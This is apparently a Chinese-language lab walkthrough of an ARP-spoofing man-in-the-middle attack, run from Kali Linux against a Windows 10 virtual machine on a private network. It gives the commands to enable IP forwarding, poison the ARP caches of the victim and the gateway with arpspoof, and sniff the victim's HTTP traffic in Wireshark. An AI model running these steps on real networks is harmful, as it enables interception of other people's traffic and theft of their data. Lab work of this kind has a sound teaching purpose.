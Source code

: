 攻击机：kali2019_x64_en-us  
受害机：win10_pro_x64_zh-chs_commando  

用到的软件：  
0：arpspoof（kali中自带）  
1：wireshark（kali中自带）  

攻击机下：  
0：cat /proc/sys/net/ipv4/ip_forward # 查看是否开启ipv4的包转发，0为关闭，1为开启  

1：echo 1 > /proc/sys/net/ipv4/ip_forward # 开启ipv4的包转发  

2：修改文件/etc/sysctl.conf，取消注释net.ipv4.ip_forward=1这行 # 永久开启ipv4的包转发  

3：ifconfig -a # 查看当前网卡名称  

4：arpspoof -i eth0 -t 172.16.35.133 172.16.35.2 # 172.16.35.133是受害机的ip，172.16.35.2是网关ip，让受害机（172.16.35.133）以为网关（172.16.35.2）是我  

5：arpspoof -i eth0 -t 172.16.35.2 172.16.35.133 # 这条命令中将受害者ip和网关ip互换，让网关（172.16.35.2）以为受害机（172.16.35.133）是我  

6：让子弹飞一会（让mac欺骗的流量跑一会）  

7：打开并启动wireshark后，设置过滤器为http and ip.addr==111.26.219.37 # 其中111.26.219.37为受害机访问的网站，注意这里是双等号不是单等号  

8：wireshark过滤器总结  
http and ip.addr==111.26.219.37 and tcp.port==9090  

受害机下：  
0：访问目标网站  
